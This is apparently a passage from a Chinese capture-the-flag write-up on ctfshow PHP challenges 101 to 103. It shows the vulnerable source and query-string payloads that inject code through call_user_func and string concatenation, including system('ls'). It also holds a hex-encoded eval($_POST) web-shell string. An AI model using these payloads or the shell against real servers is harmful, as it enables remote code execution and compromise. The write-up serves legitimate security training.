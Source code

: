 所以只要保证v1是数字就可以使得v0为true，从而进入if中

payload:

> ?v1=1&v2=var_dump($ctfshow)/*&v3=*/;
> ?v1=1&v2=?><?php echo `ls`?>/*&v3=;*/
> ?v1=1&v2=-system('ls')-&v3=-1;
> ?v1=1&v2=echo&v3=;system('ls');
> ?v1=1&v2=var_dump(get_class_vars(&v3=);

**还有一种方法是通过发射类ReflectionClass，输出class ctfshow**

> **ReflectionClass** 类报告了一个类的有关信息。

简单来说反射类就是存放了类里的所有东西。
最简单的方法直接输出这个类即可，也就是构造出 `echo new ReflectionClass('ctfshow');`

payload:`?v1=1&v2=echo new ReflectionClass&v3=;`



## web 102-103

```php
<?
highlight_file(__FILE__);
$v1 = $_POST['v1'];
$v2 = $_GET['v2'];
$v3 = $_GET['v3'];
$v4 = is_numeric($v2) and is_numeric($v3);
if($v4){
    $s = substr($v2,2);
    $str = call_user_func($v1,$s);
    echo $str;
    file_put_contents($v3,$str);
}
else{
    die('hacker');
}

?>
```

$v4为真执行，则$v2需要是数字。使用回调函数`call_user_func`，调用$v1的函数，将$s 作为参 数 ，将str写入v3参数

知识点：

```php
在php5x的环境下is_numeric可以识别十六进制，返回值为true
在php7x的环境下is_numeric不可以识别十六进制，返回值为false

    
<?php
var_dump(is_numeric("0x3c3f706870206576616c28245f504f53545b315d293b3f3e"));
?>
//返回值 bool(false)
//环境为php7
```

